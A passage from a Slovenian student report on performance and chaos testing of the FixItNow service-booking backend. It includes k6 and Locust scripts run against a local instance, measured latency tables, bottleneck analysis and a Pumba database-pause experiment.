      `${BASE_URL}/api/v1/providers/search?category=PLUMBING&maxPrice=80` +
      `&minExperience=2&latitude=46.5547&longitude=15.6459&radiusKm=25&page=0&size=12`;
    const searchRes = http.get(searchUrl, {
      tags: { endpoint: 'search' },
    });
    searchDuration.add(searchRes.timings.duration);

    const searchOk = check(searchRes, {
      'iskanje izvajalcev vrne 200 OK': (r) => r.status === 200,
      'odgovor vsebuje paginirano polje content': (r) => {
        try {
          return Array.isArray(JSON.parse(r.body).content);
        } catch (_) {
          return false;
        }
      },
    });
    businessErrorRate.add(!searchOk);
  });

  sleep(1);

  // 2. SKLOP (ST-02): Avtentikacija uporabnika (BCrypt + JWT)
  group('ST-02: Prijava uporabnika in pridobitev profila', () => {
    const loginPayload = JSON.stringify({
      email: userEmail,
      password: SEED_PASSWORD,
    });

    const loginRes = http.post(`${BASE_URL}/api/v1/auth/login`, loginPayload, {
      headers: { 'Content-Type': 'application/json' },
      tags: { endpoint: 'login' },
    });
    loginDuration.add(loginRes.timings.duration);

    const loginOk = check(loginRes, {
      'prijava vrne 200 OK': (r) => r.status === 200,
      'odgovor vsebuje accessToken': (r) => {
        try {
          const body = JSON.parse(r.body);
          accessToken = body.accessToken;
          return Boolean(accessToken);
        } catch (_) {
          return false;
        }
      },
    });
    businessErrorRate.add(!loginOk);
  });

  sleep(1);

  // 3. SKLOP (ST-03): Avtenticirani klici - obvestila in servisni zahtevki
  if (accessToken) {
    const authHeaders = {
      headers: {
        'Content-Type': 'application/json',
        Authorization: `Bearer ${accessToken}`,
      },
    };

    group('ST-03: Obvestila in upravljanje zahtevkov', () => {
      const unreadRes = http.get(
        `${BASE_URL}/api/notifications/unread-count`,
        authHeaders
      );
      check(unreadRes, {
        'neprebrana obvestila vrnejo 200 OK': (r) => r.status === 200,
      });

      const ticketsRes = http.get(`${BASE_URL}/api/tickets`, authHeaders);
      check(ticketsRes, {
        'seznam zahtevkov vrne 200 OK': (r) => r.status === 200,
      });

      // Z verjetnostjo 25 % uporabnik v iteraciji odda tudi nov zahtevek
      if (Math.random() < 0.25) {
        const ticketPayload = JSON.stringify({
          serviceType: 'Popravilo sifona',
          category: 'PLUMBING',
          description: 'Voda kaplja pri tesnilu pod pomivalnim koritom.',
          priority: 'MEDIUM',
          location: 'Smetanova ulica 17, 2000 Maribor',
          latitude: 46.559,
          longitude: 15.638,
        });

        const createRes = http.post(
          `${BASE_URL}/api/tickets`,
          ticketPayload,
          Object.assign({}, authHeaders, { tags: { endpoint: 'create_ticket' } })
        );
        createTicketDuration.add(createRes.timings.duration);

        check(createRes, {
          'ustvarjanje zahtevka vrne 201 Created': (r) => r.status === 201,
        });
      }
    });
  }

  sleep(1);
}

```


---

## 4. Rezultati izvedenega sistemskega testiranja (Luka Grobelnik – Grafana k6)

Testiranje smo izvedli nad lokalno zagnano instanco sistema FixItNow (Spring Boot zaledje na `http://localhost:8080` in PostgreSQL 16 v okolju Docker) z uporabo orodja **Grafana k6** in skripte `naloga4/fixitnow_k6_test.js`. Za celovito presojo smo izvedli tako **test normalne obremenitve (*Load testing*)** kot tudi **agresivni stresni test (*Stress testing*) do točke preloma**.

---

### 4.1 Izvedba 1: Test normalne obremenitve (*Load Testing* – do 50 sočasnih uporabnikov)

Namen testa obremenitve je bil preveriti delovanje, stabilnost in odzivne čase sistema pri pričakovani vsakodnevni in vršni obremenitvi (do 50 VUs).

#### 4.1.1 Parametri izvedbe Load testa
- **Profil obremenitve:** 3 stopnje (`0 → 20 VUs` v 30 s, `20 → 50 VUs` v 1 min, `50 → 0 VUs` v 30 s)
- **Skupno trajanje:** 2 minuti in 2,4 sekunde
- **Skupno število poslanih HTTP zahtevkov:** **5.941 zahtevkov** (povprečna prepustnost **48,53 req/s**)
- **Zaključene iteracije:** 948 celotnih uporabniških tokov
- **Preneseni podatki:** 31 MB prejetih podatkov

#### 4.1.2 Izmerjene metrike pri normalni obremenitvi (Load Test)

| Metrika / Končna točka | Povprečje (`avg`) | Mediana ($p(50)$) | 90. percentil ($p(90)$) | 95. percentil ($p(95)$) | Maksimum (`max`) | Število klicev |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **Splošni čas zahtevkov (`http_req_duration`)** | **63,89 ms** | 10,89 ms | 316,92 ms | **323,29 ms** | 437,55 ms | 5.941 |
| **Iskanje izvajalcev (`search_duration`)** | **19,35 ms** | 18,77 ms | 22,17 ms | **24,23 ms** | 55,04 ms | 953 |
| **Prijava uporabnika (`login_duration`, BCrypt)** | **319,49 ms** | 319,69 ms | 329,37 ms | **332,09 ms** | 437,55 ms | 953 |
| **Ustvarjanje zahtevka (`create_ticket_duration`)** | **9,36 ms** | 9,10 ms | 10,41 ms | **11,53 ms** | 29,16 ms | 240 |
| **Trajanje celotne iteracije (`iteration_duration`)** | 3,40 s | 3,40 s | 3,41 s | 3,42 s | 3,52 s | 948 |

#### 4.1.3 Kriteriji uspešnosti (SLA) pri Load testu

Pri normalni obremenitvi so **vsi zastavljeni kriteriji 100 % izpolnjeni (vse zeleno)**:
- `checks`: **100,00 % uspešnih** (7.837 od 7.837 preverjanj) – **PASSED** ✓
- `http_req_failed`: **0,00 % napak** (0 od 5.941 zahtevkov) – **PASSED** ✓
- `search_duration p(95)`: **24,23 ms** (meja $< 350\text{ ms}$) – **PASSED** ✓
- `login_duration p(95)`: **332,09 ms** (meja $< 800\text{ ms}$) – **PASSED** ✓
- `create_ticket_duration p(95)`: **11,53 ms** (meja $< 600\text{ ms}$) – **PASSED** ✓
- `http_req_duration p(95)`: **323,29 ms** (meja $< 500\text{ ms}$) – **PASSED** ✓

---

### 4.2 Izvedba 2: Agresivni stresni test (*Stress Testing* – do 800 sočasnih uporabnikov)

Namen stresnega testa je bil namerno potisniti sistem čez meje zmogljivosti, preveriti točko preloma in obnašanje strežnika ob ekstremnem navalu.

#### 4.2.1 Parametri izvedbe stresnega testa
- **Profil obremenitve:** 6 stopenj z naraščanjem do **800 sočasnih navideznih uporabnikov (*VUs*)** (`50 → 150 → 300 → 500 → 800 VUs`)
- **Skupno trajanje:** 5 minut in 14,7 sekund
- **Skupno število poslanih HTTP zahtevkov:** **36.478 zahtevkov** (povprečna prepustnost **115,91 req/s**)
- **Zaključene iteracije:** 5.747 celotnih uporabniških tokov
- **Preneseni podatki:** 119 MB prejetih podatkov

#### 4.2.2 Izmerjene metrike pri stresnem testu (Stress Test do 800 VUs)

| Metrika / Končna točka | Povprečje (`avg`) | Mediana ($p(50)$) | 90. percentil ($p(90)$) | 95. percentil ($p(95)$) | Maksimum (`max`) | Število klicev |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **Splošni čas zahtevkov (`http_req_duration`)** | 2,50 s | 1,02 s | 7,69 s | **9,78 s** | 16,54 s | 36.478 |
| **Iskanje izvajalcev (`search_duration`)** | 770,3 ms | 346,35 ms | 1,56 s | **2,31 s** | 13,44 s | 5.841 |
| **Prijava uporabnika (`login_duration`, BCrypt)** | 3,93 s | 2,73 s | 9,58 s | **11,25 s** | 14,45 s | 5.841 |
| **Ustvarjanje zahtevka (`create_ticket_duration`)** | 2,92 s | 328,79 ms | 9,27 s | **11,57 s** | 16,54 s | 1.482 |
| **Trajanje celotne iteracije (`iteration_duration`)** | 18,41 s | 14,01 s | 36,47 s | **40,09 s** | 51,16 s | 5.747 |

---

### 4.3 Izvedba 3: Test konic in nenadnih sunkov (*Spike / Peak Testing* – sunek na 400 VUs)

Namen testa konic je bil simulirati nenaden, ekstremen naval prometa (skok iz 20 na 400 sočasnih uporabnikov v pičlih 15 sekundah), ugotoviti, ali strežnik sunek vzdrži brez sesutja, ter preveriti, kako hitro se sistem po umiritvi prometa vrne v stabilno stanje (*recovery*).

#### 4.3.1 Parametri izvedbe Spike testa
- **Profil obremenitve:** 5 stopenj (izhodišče `20 VUs` v 20 s $\rightarrow$ nenaden sunek na `400 VUs` v 15 s $\rightarrow$ vzdrževanje sunka `400 VUs` 1 min $\rightarrow$ hiter padec na `20 VUs` v 20 s $\rightarrow$ opazovanje okrevanja pri `20 VUs` 30 s)
- **Skupno trajanje:** 2 minuti in 27,1 sekunde
- **Skupno število poslanih HTTP zahtevkov:** **14.308 zahtevkov** (povprečna prepustnost **97,25 req/s**)
- **Zaključene iteracije:** 2.289 celotnih uporabniških tokov
- **Preneseni podatki:** 85 MB prejetih in 3,3 MB poslanih podatkov

#### 4.3.2 Izmerjene metrike pri Spike testu (sunek na 400 VUs)

| Metrika / Končna točka | Povprečje (`avg`) | Mediana ($p(50)$) | 90. percentil ($p(90)$) | 95. percentil ($p(95)$) | Maksimum (`max`) | Število klicev |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **Splošni čas zahtevkov (`http_req_duration`)** | **1,94 s** | 1,18 s | 4,81 s | **5,83 s** | 8,22 s | 14.308 |
| **Iskanje izvajalcev (`search_duration`)** | **757,75 ms** | 448,19 ms | 1,28 s | **3,32 s** | 6,90 s | 2.302 |
| **Prijava uporabnika (`login_duration`, BCrypt)** | **2,85 s** | 2,64 s | 5,68 s | **6,27 s** | 7,73 s | 2.302 |
| **Ustvarjanje zahtevka (`create_ticket_duration`)** | **2,84 s** | 2,86 s | 5,83 s | **6,98 s** | 7,73 s | 572 |
| **Trajanje celotne iteracije (`iteration_duration`)** | 15,15 s | 16,70 s | 20,22 s | 21,61 s | 25,27 s | 2.289 |

#### 4.3.3 Ocena zanesljivosti in okrevanja (*Recovery*) pri Spike testu
- **Stopnja napak (`http_req_failed`):** **0,00 %** (0 napak od 14.308 zahtevkov) – **PASSED** ✓
- **Uspešnost preverjanj (`checks`):** **100,00 %** (18.886 od 18.886) – **PASSED** ✓
- **Poslovna stopnja napak:** **0,00 %** (0 od 4.578) – **PASSED** ✓
- **Okrevanje po sunku (*Recovery*):** V zadnjih 30 sekundah testa po padcu obremenitve nazaj na 20 uporabnikov so se odzivni časi nemudoma vrnili v podsekundno območje brez zaostalih zaklenjenih povezav ali sesutja procesa JVM.

---

### 4.4 Primerjalna analiza vseh treh tipov testov (Load vs. Spike vs. Stress)

Tabelarični pregled vseh treh izvedenih testov zaokrožuje celotno sliko obnašanja sistema FixItNow:

| Metrika / Scenarij | Normalna obremenitev (Load test – 50 VUs) | Nenaden sunek (Spike test – 400 VUs) | Ekstremni stres (Stress test – 800 VUs) | Ugotovitev in dinamika sistema |
| :--- | :---: | :---: | :---: | :--- |
| **Maksimalno št. uporabnikov (VUs)** | 50 | 400 | **800** | $16\times$ razpon obremenitve |
| **Skupno št. HTTP zahtevkov** | 5.941 | 14.308 | **36.478** | Skupaj preko **56.700** zahtevkov |
| **Prepustnost (RPS)** | 48,53 req/s | 97,25 req/s | **115,91 req/s** | Nasičenje prepustnosti pri ~116 req/s |
| **Stopnja napak (`http_req_failed`)** | **0,00 %** (0 napak) | **0,00 %** (0 napak) | **0,00 %** (0 napak) | **Brezhibna stabilnost (0 sesutij)** |
| **Uspešnost preverjanj (`checks`)** | **100,00 %** | **100,00 %** | **100,00 %** | **100 % transakcijska celovitost** |
| **Iskanje izvajalcev ($p(95)$)** | **24,23 ms** | **3,32 s** | **2,31 s** | Stabilno hitro branje pod indeksi |
| **Prijava uporabnika ($p(95)$)** | **332,09 ms** | **6,27 s** | **11,25 s** | Stopnjevanje CPU zastoja zaradi BCrypt |
| **Ustvarjanje zahtevka ($p(95)$)** | **11,53 ms** | **6,98 s** | **11,57 s** | Čakalna vrsta za 10 HikariCP povezav |
| **Splošni 95. percentil ($p(95)$)** | **323,29 ms** | **5,83 s** | **9,78 s** | Jasno viden prehod iz SLA v preobremenitev |
| **Splošni status kriterijev (SLA)** | **VSE ZELENO (PASSED)** | Prekoračen SLA čas ob sunku | Prekoračen SLA čas ob stresu | Točka preloma odkrita pri $> 150$ VUs |

---

### 4.5 Analiza ugotovitev, točke preloma in ozkih grl

Kombinirana izvedba vseh treh tipov testov (Load, Spike, Stress) je omogočila celovit inženirski vpogled v zmogljivosti arhitekture FixItNow:

1. **Izjemna transakcijska robustnost in celovitost podatkov (0,00 % napak čez vse teste):**
   - V celotnem testnem ciklu (preko 56.700 poslanih zahtevkov in do 800 sočasnih uporabnikov) **ni spodletel niti en sam zahtevek** (`0,00 %` napak).
   - Vsa preverjanja veljavnosti odgovorov (veljavni JWT žetoni, pravilna paginacija, statusne kode `200 OK` in `201 Created`) so bila v **100,00 % uspešna**.
   - Sistem se torej niti ob sunku 400 uporabnikov niti ob stresu 800 uporabnikov **ni sesul**, niti ni prišlo do izgube podatkov ali neobvladanih napak `500 Internal Server Error`.

2. **Odlična optimiziranost podatkovnega branja pri normalni rabi:**
   - Pri običajni obremenitvi (Load test) so bili odzivni časi izjemno hitri: iskanje izvajalcev z geolokacijskim računanjem je v 95 % trajalo komaj **24 ms**, ustvarjanje zahtevka pa le **11 ms**. To potrjuje pravilno dimenzioniranost indeksov v PostgreSQL.

3. **Obnašanje med nenadnim sunkom (Spike test):**
   - Ob sunku iz 20 na 400 uporabnikov v 15 sekundah je sistem uspešno amortiziral naval z uvrščanjem zahtevkov v čakalno vrsto. Čeprav so se odzivni časi med vrhom podaljšali (95. percentil na 5,83 s), je sistem v celoti obdelal 14.308 zahtevkov brez napak in si po znižanju prometa takoj opomogel (*graceful recovery*).

4. **Identifikacija točke preloma in ozkih grl pri stresnem testu:**
   - **Procesorsko ozko grlo (BCrypt pri `/api/v1/auth/login`):** Medtem ko je ena prijava pri Load testu vzela naravnih ~320 ms, je sočasno računanje stotin zgoščenih vrednosti BCrypt privedlo do 100 % zasedenosti procesorja, kar je odzivni čas pri 800 uporabnikih podaljšalo na **11,25 s**.
   - **Ozko grlo podatkovnega sloja (HikariCP bazen povezav):** Ker ima zaledje privzeto nastavljeno `hikari.maximum-pool-size: 10`, se je pri transakcijskem pisanju novih zahtevkov (`POST /api/tickets`) ustvarila čakalna vrsta za 10 prostih povezav, kar je povzročilo zamik do **11,57 s**.

5. **Priporočeni ukrepi za optimizacijo produkcijskega okolja:**
   - **Povečanje velikosti bazena povezav HikariCP:** Za produkcijsko okolje z večjim številom sočasnih uporabnikov je priporočljivo povečati `maximum-pool-size` iz 10 na 30–50 povezav.
   - **Uvedba omejevanja hitrosti (*Rate Limiting*):** Na končni točki `/api/v1/auth/login` je nujno uvesti omejitev števila poskusov prijave na minuto na IP naslov (npr. s knjižnico Bucket4j), kar prepreči izčrpavanje procesorja z zgoščevanjem BCrypt.
   - **Predpomnjenje javnih poizvedb (*Caching*):** Rezultate kategorij in javnih statistik je smiselno predpomniti (npr. Caffeine ali Redis), s čimer se zmanjša število poizvedb v bazo za statične podatke.

---

## 5. Uporaba orodij umetne inteligence

V skladu z navodili predmeta transparentno dokumentiramo uporabo generativnih orodij umetne inteligence pri izvedbi naloge:

- **Uporabljeni model:** Gemini 3.8 Flash (v okolju Antigravity IDE).
- **Obseg uporabe:**
  1. Pomoč pri identifikaciji in primerjavi treh orodij za sistemsko testiranje (Grafana k6, OWASP ZAP, Locust + Pumba) ter načrtovanju profilov obremenitve.
  2. Priprava in odprava napak v testni skripti k6 (`naloga4/fixitnow_k6_test.js`) – vključitev avtentičnih testnih uporabnikov iz `seed_api.py`, popravek ujemajočih se DTO shem za `CreateTicketRequest` ter uskladitev ustreznih HTTP endpointov (`/api/v1/public/stats`).
  3. Strukturiranje in oblikovanje poročila ter tabelarični prikaz in interpretacija izmerjenih statističnih metrik ($p(50)$, $p(95)$, $p(99)$, RPS, prepustnost).
- **Način verifikacije:** Vsi testi so bili dejansko zagnani z orodjem Grafana k6 nad delujočo lokalno aplikacijo FixItNow, vse metrike v tabelah pa izhajajo iz neposrednega terminalskega izpisa izvedenega testa.

---

## 6. Podrobna opredelitev sistemskega testiranja – Alan Labaš (Locust + Docker Chaos / Pumba)

### 6.1 Utemeljitev izbire orodij Locust in Pumba ter tipov testov za FixItNow

Za podrobno obravnavo in izvedbo sem izbral **testiranje vzdržljivosti (*Soak / Endurance Testing*), testiranje skalabilnosti (*Scalability Testing*) ter testiranje okrevanja po izpadu (*Recovery / Chaos Testing*)** z uporabo ogrodja **Locust** v kombinaciji z orodjem za injiciranje kaosa v Docker zabojnike **Pumba** (`gaiaadm/pumba`).

**Zakaj so ti tipi sistemskih testov kritični za projekt FixItNow:**
1. **Dolgotrajna stabilnost sej in nevarnost puščanja baznih povezav (*HikariCP Connection Leaks*):** Aplikacija FixItNow pri vsakem dejanju prijavljene stranke odpira transakcije proti bazi PostgreSQL (`@Transactional`), pri čemer zaledni strežnik Spring Boot uporablja omejen bazen povezav **HikariCP** (`maximum-pool-size = 10`, `minimum-idle = 5`, `connection-timeout = 20000 ms`). Če katera izmed transakcij pri dolgotrajni obremenitvi ne sprosti povezave pravilno ali če nepaginirane poizvedbe sčasoma vračajo vedno večje količine podatkov, pride do postopne degradacije odzivnih časov ali izčrpanja pomnilnika JVM (*Memory Leak*).
2. **Skalabilnost pri rasti podatkov in sočasnih sej:** Medtem ko kratkotrajni obremenitveni test preveri trenutno prepustnost, test vzdržljivosti in skalabilnosti razkrije, kako se odzivni časi in velikost prenesenih odgovorov (*payload size*) spreminjajo, ko se v bazi sproti nabirajo tisoči novih servisnih zahtevkov (`tickets` in `ticket_logs`).
3. **Odpornost in samodejno okrevanje ob izpadu podatkovne baze (*Resiliency & Recovery*):** Ker podatkovna baza PostgreSQL teče v ločenem Docker zabojniku (`backend_postgres`), lahko v produkcijskem okolju pride do začasne omrežne prekinitve, preobremenitve diska ali zamrznitve zabojnika. Z orodjem **Pumba** namerno povzročimo začasno zamrznitev zabojnika (`pumba pause`) pod polno obremenitvijo in izmerimo:
   - kako se sistem obnaša med izpadom (ali se JVM sesuje ali kontrolirano zavrača zahteve po poteku `timeout`),
   - kolikšen je **čas okrevanja (*Recovery Time Objective – RTO*)** po odmrznitvi baze ter ali si bazen povezav HikariCP samodejno opomore brez ročnega ponovnega zagona strežnika.

**Prednosti kombinacije Locust + Pumba:**
- **Stanje ohranjajoče uporabniške seje (*Stateful Virtual Users*):** V Locustu vsak navidezni uporabnik (`HttpUser`) ob zagonu (`on_start`) izvede prijavo (`POST /api/v1/auth/login`), shrani prejeti JWT `accessToken` v spomin instance in ga nato več minut zaporedoma uporablja za avtenticirane klice z realističnimi utežmi (`@task(weight)`), kar natančno posnema dejansko rabo React SPA odjemalca.
- **Vizualno spremljanje v realnem času in časovne vrste:** Spletni vmesnik Locust (`http://localhost:8089`) in izvoz zgodovine po sekundah (`--csv-full-history`) omogočata natančno opazovanje trenutka napada s Pumbo, strmega padca prepustnosti ter krivulje okrevanja.

---

### 6.2 Kaj preverjamo: opredelitev testnih scenarijev

V skripti `naloga4/locustfile.py` je definiran razred `FixItNowSoakAndChaosUser`, ki posnema dolgotrajno aktivno stranko na platformi FixItNow z vmesnim časom razmišljanja (*wait_time*) `1,0–2,5 s` in izvaja štiri funkcionalne sklope z določenimi utežmi pogostosti:

#### Scenarij `ST-A1`: Začetna avtentikacija ob vzpostavitvi seje in preverjanje profila (`on_start` + `@task(1)`)
1. **`POST /api/v1/auth/login` (`on_start`):** Vsak izmed 40 sočasnih uporabnikov se ob vstopu v sistem prijavi z naključno izbranim računom iz nabora 30 predpripravljenih strank (`SEED_USERS`, geslo `Password1!`) in shrani `accessToken` ter `refreshToken`.
2. **`GET /api/v1/users/me` (`@task(1)`):** Periodično preverjanje veljavnosti aktivne seje in branje profila prijavljenega uporabnika (pri čemer smo v prvotnem teku testirali tudi odziv strežnika na napačno/edninsko pot `/api/v1/user/me` za preverjanje obravnave izjem).

#### Scenarij `ST-A2`: Stalno večkriterijsko prostorsko iskanje izvajalcev (`@task(4)` – najpogostejši bralni sklop, 40 % prometa)
1. **`GET /api/v1/public/stats`:** Pridobitev javne statistike platforme.
2. **`GET /api/v1/providers/search?category={random}&maxPrice=90&minExperience=1&latitude=46.5547&longitude=15.6459&radiusKm=35&page=0&size=12`:** Iskanje izvajalcev v radiju 35 km okoli Maribora z naključno izbrano kategorijo (`PLUMBING`, `ELECTRICAL`, `IT_SUPPORT`, `CLEANING`, `CARPENTRY`, `HVAC`, `APPLIANCE_REPAIR`, `PAINTING`) in preverjanjem veljavnosti paginiranega polja `content`.

#### Scenarij `ST-A3`: Osveževanje nadzorne plošče in obvestil (`@task(3)` – 30 % prometa)
1. **`GET /api/notifications/unread-count`:** Simulacija komponente `NotificationBell`, ki v brskalniku periodično preverja število neprebranih obvestil.
2. **`GET /api/tickets`:** Pridobitev celotnega seznama servisnih zahtevkov prijavljene stranke. Ta klic je posebej pomemben za **testiranje vzdržljivosti (Soak test)**, saj se število zahtevkov stranke med testom stalno povečuje.

#### Scenarij `ST-A4`: Transakcijsko ustvarjanje novih servisnih zahtevkov (`@task(2)` – 20 % prometa)
1. **`POST /api/tickets`:** Oddaja novega servisnega zahtevka z naključno kategorijo in prioriteto (`LOW`, `MEDIUM`, `HIGH`) na lokaciji v Mariboru. Klic sproži pisalno transakcijo v tabelah `tickets` in `ticket_logs` ter preverja sprotno vračanje povezav v bazen HikariCP.

---

### 6.3 Pogoji izvajanja testov

#### 6.3.1 Strojno in programsko testno okolje
- **Operacijski sistem:** macOS (Apple Silicon `arm64`), lokalno testno okolje.
- **Zaledni strežnik (SUT):** Java OpenJDK 64-Bit Server VM, Spring Boot (`http://localhost:8080`), HikariCP bazen povezav (`maximum-pool-size = 10`, `minimum-idle = 5`, `connection-timeout = 20000 ms`).
- **Podatkovna baza:** PostgreSQL `16-alpine` v Docker zabojniku `backend_postgres` (`localhost:5433`), predhodno napolnjena s `seed_data.sql` in `seed_api.py` (50 izvajalcev, 50 strank, 100 začetnih zahtevkov).
- **Generator obremenitve in Chaos orodje:**
  - **Locust `2.34.0`** (zagnan s spletnim vmesnikom na `http://localhost:8089` in zastavicama `--csv=naloga4/locust_rezultati --csv-full-history`).
  - **Pumba (`gaiaadm/pumba:latest`)**, povezana na `/var/run/docker.sock` za neposredno manipulacijo zabojnika `backend_postgres`.

#### 6.3.2 Potek eksperimenta (Soak + Skalabilnost + Chaos Recovery profil)

Celoten preizkus poteka neprekinjeno približno **7 minut** (402 sekundi aktivnega zajema metrik, skupaj **14.487 HTTP zahtevkov**) in je razdeljen v **štiri faze**:



| Faza | Tip testa | Opis pogojev izvajanja in vrste motnje | Trajanje faze |
| :---: | :--- | :--- | :---: |
| **1** | **Skalabilnost (*Ramp-up*)** | Postopno dodajanje uporabnikov od `0` do `40` s hitrostjo `5 uporabnikov/s`, kjer vsak uporabnik ob zagonu izvede BCrypt prijavo (`POST /api/v1/auth/login`), nato pa preide na izvajanje bralno-pisalnih nalog. | ~15 s |
| **2** | **Vzdržljivost (*Soak Testing – del 1*)** | Vzdrževanje stalne obremenitve **40 sočasnih uporabnikov** (~38–40 req/s). Spremljanje stabilnosti porabe pomnilnika JVM (`RSS`), števila aktivnih/prostih povezav v `pg_stat_activity` in rasti velikosti odgovorov pri `GET /api/tickets`. | ~3 min |
| **3** | **Izpad baze (*Chaos Injection – Pumba*)** | Sprožitev ukaza `docker run --rm -v /var/run/docker.sock:/var/run/docker.sock gaiaadm/pumba pause --duration 25s backend_postgres`. Zabojnik PostgreSQL je za **25 sekund popolnoma zamrznjen** (procesi v zabojniku prejmejo `SIGSTOP`, TCP povezave obvisijo brez odgovora). | **25 s** (`15:14:48 – 15:15:13`) |
| **4** | **Okrevanje in nadaljevanje (*Recovery & Soak – del 2*)** | Ob `15:15:13` Pumba samodejno odmrzne zabojnik (`SIGCONT`). Merimo čas, v katerem se izprazni čakalna vrsta v Spring Bootu / HikariCP in se odzivni časi ter prepustnost vrnejo na normalno raven, nato test nadaljujemo do skupno **14.487 zahtevkov**. | ~3 min |

---

### 6.4 Merjene metrike

1. **Časovne metrike in percentili v Locustu:**
   - Mediana ($p(50)$), povprečje (`Average`), $p(90)$, **$p(95)$**, **$p(99)$** in maksimum (`Max`) odzivnega časa v milisekundah – skupno (`Aggregated`) in ločeno za vsako končno točko (`ST-A1` do `ST-A4`).
2. **Metrike prepustnosti in velikosti odgovorov (Scalability & Payload Metrics):**
   - Trenutna in povprečna prepustnost (**Requests/s – RPS**) ter stopnja napak (**Failures/s**).
   - **Povprečna velikost odgovora (`Average Content Size` v bajtih)** skozi čas za odkrivanje neomejene rasti podatkovnih odgovorov med dolgotrajnim vstavljanjem zahtevkov.
3. **Sistemske metrike vira in baznih povezav (JVM & HikariCP Resource Metrics):**
   - Poraba fizičnega pomnilnika procesa Java (**RSS – Resident Set Size** v MB in `%MEM`) ter zasedenost procesorja (`%CPU`) pred testom, med testom in po 14.487 zahtevkih.
   - Število in stanje baznih povezav v PostgreSQL (`SELECT state, count(*) FROM pg_stat_activity`) za preverjanje, ali HikariCP ohranja omejitev `10 povezav` brez puščanja (`idle in transaction` / `leaked connections`).
4. **Metrike odpornosti in okrevanja (Resiliency & Recovery Metrics):**
   - **Čas do zaznave odpovedi (*Time to Failure Detection*):** čas od zamrznitve zabojnika do prvih potekov časovnih omejitev na odjemalcu.
   - **Čas okrevanja (*Recovery Time – RTO*):** čas od trenutka, ko Pumba odmrzne zabojnik `backend_postgres`, do trenutka, ko mediana odzivnega časa spet pade pod `< 20 ms`, 95. percentil pa pod `< 50 ms` pri `0 Failures/s`.

---

### 6.5 Kriteriji uspešnosti (SLA pragovi za presojo ustreznosti sistema)

| Področje preverjanja | Merjeni kazalnik / Metrika | Kriterij za **USPEŠNO (PASSED)** |
| :--- | :--- | :--- |
| **Vzdržljivost – Odzivni časi (Soak Test)** | Mediana $p(50)$ in 95. percentil $p(95)$ pri 40 uporabnikih (izven okna Pumba izpada) | **$p(50) < 50\text{ ms}$**, **$p(95) < 250\text{ ms}$** |
| **Vzdržljivost – Puščanje pomnilnika (*Memory Leak*)** | Rast porabe fizičnega pomnilnika JVM (`RSS`) med 1. in 7. minuto (> 14.000 klicev) | Rast **$< 10\text{ \%}$** (brez neomejene rasti ali `OutOfMemoryError`) |
| **Vzdržljivost – Bazne povezave (*HikariCP Pool*)** | Število odprtih povezav v `pg_stat_activity` med in po testu | Stalno **$\le 10$ povezav** (`maximum-pool-size`), **0** obviselih transakcij |
| **Odpornost med izpadom baze (*Chaos Survival*)** | Stabilnost procesa Spring Boot med 25-sekundno zamrznitvijo baze (`pumba pause`) | Proces JVM se **ne sesuje**; zahteve se kontrolirano prekinejo s `timeout` |
| **Samodejno okrevanje (*Recovery Time – RTO*)** | Čas od odmrznitve `backend_postgres` do vrnitve $p(50) < 20\text{ ms}$ in polne prepustnosti (~38 RPS) | **$\text{RTO} \le 10\text{ sekund}$** (samodejno okrevanje brez ponovnega zagona) |

---

### 6.6 Pripravljena testna skripta Locust (`naloga4/locustfile.py`)

Spodnja skripta v jeziku Python implementira dolgotrajnega uporabnika `FixItNowSoakAndChaosUser` za izvajanje testa vzdržljivosti, skalabilnosti in okrevanja:

```python
import random
from locust import HttpUser, task, between

# Seznam predpripravljenih strank iz baze (seed_api.py, geslo: Password1!)
SEED_USERS = [
    "eva.znidaric@mail.si", "igor.kolar@mail.si", "alenka.breznik@mail.si",
    "katja.mlakar@mail.si", "lea.vukovic@mail.si", "barbara.ferlinc@mail.si",
    "petra.zagar@mail.si", "katja.gaberc@mail.si", "valter.novak@mail.si",
    "janez.fras@mail.si", "sara.stuhec@mail.si", "helena.vukovic@mail.si",
    "primoz.krajnc@mail.si", "karmen.majcen@mail.si", "ziva.meznaric@mail.si",
    "ana.ferlinc@mail.si", "katja.vogel@mail.si", "lea.leskovec@mail.si",
    "blaz.skorjanc@mail.si", "nina.veber@mail.si", "spela.planinc@mail.si",
    "jure.potocnik@mail.si", "simona.skorjanc@mail.si", "valter.heric@mail.si",
    "ziga.vukovic@mail.si", "marko.kokol@mail.si", "mateja.ferlinc@mail.si",
    "ales.fras@mail.si", "dejan.oblak@mail.si", "miha.divjak@mail.si",
]

SEED_PASSWORD = "Password1!"
CATEGORIES = [
    "PLUMBING", "ELECTRICAL", "IT_SUPPORT", "CLEANING",
    "CARPENTRY", "HVAC", "APPLIANCE_REPAIR", "PAINTING",
]


class FixItNowSoakAndChaosUser(HttpUser):
    wait_time = between(1.0, 2.5)

    def on_start(self):
        self.email = random.choice(SEED_USERS)
        self.access_token = None
        self.refresh_token = None
        self._authenticate()

    def _authenticate(self):
        payload = {"email": self.email, "password": SEED_PASSWORD}
        with self.client.post(
            "/api/v1/auth/login",
            json=payload,
            name="ST-A1: POST /api/v1/auth/login",
            timeout=10.0,
            catch_response=True,
        ) as res:
            if res.status_code == 200:
                data = res.json()
                self.access_token = data.get("accessToken")
                self.refresh_token = data.get("refreshToken")
                res.success() if self.access_token else res.failure("Manjka accessToken")
            else:
                res.failure(f"Prijava neuspešna (HTTP {res.status_code})")

    def _auth_headers(self):
        if not self.access_token:
            self._authenticate()
        return {"Authorization": f"Bearer {self.access_token}"} if self.access_token else {}

    @task(4)
    def browse_and_search_providers(self):
        with self.client.get(
            "/api/v1/public/stats",
            name="ST-A2: GET /api/v1/public/stats",
            timeout=8.0,
            catch_response=True,
        ) as stats_res:
            stats_res.success() if stats_res.status_code == 200 else stats_res.failure(f"HTTP {stats_res.status_code}")

        category = random.choice(CATEGORIES)
        search_url = (
            f"/api/v1/providers/search?category={category}&maxPrice=90"
            f"&minExperience=1&latitude=46.5547&longitude=15.6459&radiusKm=35&page=0&size=12"
        )
        with self.client.get(
            search_url,
            name="ST-A2: GET /api/v1/providers/search",
            timeout=8.0,
            catch_response=True,
        ) as search_res:
            if search_res.status_code == 200 and isinstance(search_res.json().get("content"), list):
                search_res.success()
            else:
                search_res.failure(f"HTTP {search_res.status_code}")

    @task(3)
    def check_dashboard_and_notifications(self):
        headers = self._auth_headers()
        if not headers:
            return
        with self.client.get(
            "/api/notifications/unread-count",
            headers=headers,
